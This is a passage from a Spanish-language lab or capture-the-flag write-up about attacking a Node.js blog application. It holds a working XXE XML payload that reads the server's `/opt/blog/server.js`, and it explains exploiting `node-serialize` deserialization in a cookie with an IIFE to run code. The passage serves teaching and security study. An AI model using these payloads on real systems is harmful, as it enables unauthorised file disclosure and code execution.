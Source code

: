 Para extraer únicamente los puertos en hexadecimal y luego convertirlos a decimal, ejecutamos el siguiente comando en la terminal:

`for port in $(cat data | awk '{print $2}' | grep -v local | awk 'NF{print $NF}' FS=':' | sort -u); do echo "[+] Port $port -> $(echo "obase=10; ibase=16; $port"| bc)"; done`

```bash
❯ for port in $(cat data | awk '{print $2}' | grep -v local | awk 'NF{print $NF}' FS=':' | sort -u); do echo "[+] Port $port -> $(echo "obase=10; ibase=16; $port"| bc)"; done
[+] Port 0016 -> 22
[+] Port 0035 -> 53
[+] Port 6989 -> 27017
[+] Port D4F2 -> 54514
[+] Port D4F4 -> 54516
[+] Port D4F6 -> 54518
```

Del resultado, se puede observar que se está utilizando el puerto 27017, el cual hace referencia al puerto por defecto que usa `MongoDB`.

Ahora que sabemos que el código fuente de la aplicación web está en el directorio `/opt/blog/`, podemos intentar leer el código fuente para obtener más pistas. Para ello, actualizamos nuestro payload para que apunte al archivo `/opt/blog/server.js`, ya que este archivo es comúnmente utilizado para aplicaciones `NodeJS`.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///opt/blog/server.js" >]>

<post>
  <title>Test Post</title>
  <description>Testing...</description>
  <markdown>&xxe;</markdown>
</post>
```

### NodeJS Deserialization (IIFE Abusing)

Es importante destacar la importación de "`node-serialize`" y la posterior llamada al método "`unserialize()`" dentro de la función "`authenticated()`" en la cookie "`c`" de una solicitud.

![server](server.png)

![server2](server2.png)

Hemos revisado la cookie y parece ser JSON codificado con `URL-encoding`.

![cookie](cookie.png)

La cookie decodifica a:

`{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}`

Podemos explotar la llamada a `unserialize()` al pasar un objeto `JavaScript` serializado y malicioso a la función. Esto incluiría una expresión de Immediately invoked function expression (`IIFE`) que permitirá la ejecución de código arbitrario.

